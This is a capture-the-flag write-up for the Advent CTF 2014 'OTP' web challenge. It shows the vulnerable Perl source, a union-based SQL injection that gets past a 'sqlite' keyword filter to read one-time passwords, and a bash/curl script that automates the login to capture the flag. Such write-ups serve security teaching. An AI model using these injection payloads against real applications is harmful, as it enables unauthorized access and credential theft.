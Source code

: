 ```yaml
---
layout: post
title: "Advent CTF 2014 OTP"
date: 2014-12-25 15:42:46 -0500
author: [swappage]
comments: true
categories: [advent]
---
```


### Solved by Swappage

otp was a nice (and painful) web challenge in the advent calendar CTF 2014.

We were provided with the source code of the web application and with an URL: the objective was to successfully login to the web site to get the flag.

```perl
#!/usr/bin/env perl
use Mojolicious::Lite;
use DBI;

my $dbh = DBI->connect(
    'dbi:SQLite:dbname=./otp.db', '', '',
    +{
        RaiseError     => 1,
        sqlite_unicode => 1,
    }
);
app->helper(dbh => sub { $dbh });

get '/' => sub {
    my $c = shift;
    my ($token, $pass) = gen_otp();
    my $expire = time() + 10;
    $c->dbh->do('INSERT INTO otp VALUES (?, ?, ?)', undef, $token, $pass, $expire);
    $c->render('index', token => $token);
};

post '/' => sub {
    my $c = shift;
    my $token = $c->req->param('token');
    # tiny firewall, but powerful :P
    if ($token =~ /sqlite/i) {
        $c->render('error', message => "no hack.");
        return;
    }
    my $time = time();
    my ($expire) = $c->dbh->selectrow_array(
        "SELECT ###CENSORED### FROM otp WHERE ###CENSORED### = '$token' AND ###CENSORED### < $time",
    );
    if ($expire) {
        $c->render('error', message => "otp expired at $expire");
    } else {
        my $pass = $c->req->param('pass');
        my ($ok) = $c->dbh->selectrow_array(
            'SELECT 1 FROM otp WHERE ###CENSORED### = ? AND ###CENSORED### = ?', undef, $token, $pass,
        );
        $c->render('auth', ok => $ok);
    }
    $c->dbh->do(
        'DELETE FROM otp WHERE ###CENSORED### = ?', undef, $token
    );
};

sub gen_otp {
    open my $fh, '<:raw', '/dev/urandom' or die $!;
    read $fh, my $token, 8;
    $token = unpack 'H*', $token;
    read $fh, my $pass, 16;
    $pass = unpack 'H*', $pass;
    return ($token, $pass);
}

app->start;
__DATA__

@@ index.html.ep
% layout 'default';
% title 'OTP';

<form method="POST">
  <input type="hidden" name="token" value="<%= $token %>" />
  <input type="text" name="pass" />
  <input type="submit" value="auth" />
</form>

@@ auth.html.ep
% layout 'default';
% title 'Authentication | OTP';

% if ($ok) {
<p>authentication succeeded.<br />the flag is: ###CENSORED###</p>
% } else {
<p>authentication failed.</p>
% }

@@ error.html.ep
% layout 'default';
% title 'Error | OTP';

<p><%= $message %></p>

@@ layouts/default.html.ep
<!DOCTYPE html>
<html>
  <head>
    <title><%= title %></title>
  </head>
  <style>
body, input {
  color: #fff;
  background: #333;
  font-family: monospace;
  font-size: 150%;
}
.container {
  width: 100%;
  margin-top: 50px;
  text-align: center;
}
  </style>
  <body>
<div class="container">
<%= content %>
</div>
  </body>
</html>

```

To log in the web application we need to submit a password, paired with the token we are provided as an hidden field in the form, and this pair of credentials is valid for 10 seconds: if the token has expired we won't be able to log in, so what we need to do is to find a way to generate a token and exfiltrate the password generated by the application for that specific token, before it expires.

As it's possible to observe from the source code, the query at line 31 is dynamic, so it's possible to perform a SQL injection attack against the application.

By sending a tampered token value in the POST request, it's possible to notice that we are facing a union based injection attack: infact if we send something like this:

    token=' UNION SELECT 1;

we would be presented with the following output in the web page

```html
    <p>otp expired at 1</p>
```

It would at this point be easy to enumerate the database structure, tables and columns to exfiltrate some valid data, but it would have been too easy; at line 25 we can see

```perl
        if ($token =~ /sqlite/i) {
        $c->render('error', message => "no hack.");
        return;
    }
```

which makes this challenge a real pain. Infact, as the comment suggets, this is a really tiny yet powerful firewall, because to enumerate the database, we'd need to access the sqlite_master table, where metadata about table structure are stored, but guess what? this is filtered and we cant.

So, no table enumeration: we need to find an alternative way to exfiltrate a valid password to log in.

I'm not that good at sql injection attacks, and in fact it took me a while to figure this out, but after a lot of trial and error i learned that column names are not needed to read data from them

I've tried the following injection query and eventually it resulted in the last generated password correctly exfiltrated.

    token=' UNION SELECT pass FROM (SELECT 1 AS expire, 2 AS pass, 3 AS token UNION SELECT * FROM otp order by token desc LIMIT 0,1);

```html
    <p>otp expired at 1bffa01d220d8d69f102dc08b07ba199</p>
```

now all i needed was to be fast enaugh to exfiltrate a valid password and login within 10 seconds.

bash and curl came to the rescue, i put togeder this dirty and terrible script that helped me to login and get the flag

```bash
    #!/bin/bash

    TOKEN=$(curl http://otp.adctf2014.katsudon.org | grep input | grep token | awk -F '"' '{print $6}')
    PASS=$(curl http://otp.adctf2014.katsudon.org -d "token=' UNION SELECT pass FROM (SELECT 1 AS expire, 2 AS pass, 3 AS token UNION SELECT * FROM otp order by token desc LIMIT 0,1);&pass=" | grep expired | awk -F ' ' '{print $4}' | awk -F '<' '{print $1}')

    echo $TOKEN
    echo $PASS

    curl http://otp.adctf2014.katsudon.org -d "token=$TOKEN&pass=$PASS"
```


```html
<p>authentication succeeded.<br />the flag is: ADCTF_all_Y0ur_5CH3ma_ar3_83L0N9_t0_u5</p>
```
